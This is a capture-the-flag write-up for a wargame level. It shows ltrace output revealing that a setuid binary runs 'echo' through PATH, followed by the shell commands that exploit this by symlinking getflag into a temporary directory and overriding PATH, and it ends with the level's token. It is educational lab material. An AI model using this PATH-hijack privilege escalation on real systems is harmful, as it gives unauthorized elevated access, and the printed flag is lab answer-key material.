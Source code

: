 # level03 solution
Given setuid binary in home directory with flag03 owner and level03 group owner:

    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

We can run it with ltrace to get the idea of what it is doing:

    getegid()                                        = 2003
    geteuid()                                        = 2003
    setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
    system("/usr/bin/env echo Exploit me"Exploit me

Ltrace is a tool which can display library calls of given binary. Provided setuid binary sets effective user and group (flag03) to be a real user of current proccess and then it creates new process by calling system function and runs echo with environment provided from /usr/bin/env. But echo command in this binary executes by searching the PATH environment variable. THis means that we can run any binary by providing our own PATH variable containing value of different directory. In this directory we can create symlink to getflag binary so setuid binary will run it under flag03 user.

    mkdir /tmp/level03
    cd /tmp/level03
    ln -s /bin/getflag echo
    cd -
    PATH=/tmp/level03 ./level03

As a result we get token for the next level bypassing logging as flag03 user.
    
    qi0maab88jeaj46qoumi7maus
